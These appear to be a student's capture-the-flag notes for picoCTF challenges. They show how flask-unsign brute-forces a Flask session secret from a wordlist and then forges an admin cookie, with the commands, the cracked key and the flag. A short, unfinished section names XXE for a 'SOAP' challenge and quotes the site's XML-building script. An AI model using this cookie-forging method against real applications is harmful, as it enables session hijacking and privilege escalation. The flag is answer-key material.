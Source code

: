 + get session
+ check cookie
+ `Set-Cookie`: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazO0w.3CsATe1Bk_b1VNx3hbGCG0nEew4
+ `decode` : very_auth with `cookies_names` -> session = {"very_auth","admin"}

---
#### Tools
`flask-unsign`

#### Sol
+ get session value`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazZAw.YdHCNcSIYY20b4_c_kpOSnAylWQ`
+ basse64 decode ,get `{"very_auth":"blank"}e#\HF)V`
+ So we need to change it to `{"very_auth":"blank"}` and use `cookie_names (secret_key)` to encode

##### Terminal
```bash=
$pip install flask-unsign
$pip install flask-unsign-wordlist
# echo cookie_names > wordlist.txt
$flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazdjA.HuEoSxDF2RZZEhmP1f52Rh0ERVs --wordlist Most_cookies_pico/wordlist.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'

flask-unsign --sign --cookie "{'very_auth' : 'admin'}" --secret gingersnap
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zaze8A.392G1bXJFm6Ubl3Eal7A-nrX0OA
```

+ Set session = `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zaze8A.392G1bXJFm6Ubl3Eal7A-nrX0OA`

`Flag` : picoCTF{pwn_4ll_th3_cook1E5_5f016958}

`REF` : 
[flask hacketricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
[CTF time](https://ctftime.org/writeup/26978)
[Termal SOL REF](https://medium.com/@MohammedAl-Rasheed/picoctf-2021-most-cookies-7f3d8b6cd0b)

SOAP
--
`XML injection`
`XXE`

+ data: POST request
+ ![image](https://hackmd.io/_uploads/HJxAa25Ya.png)

+ `xmlDetailsCheckPayload.js`
```javascript=
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
+ Header + code
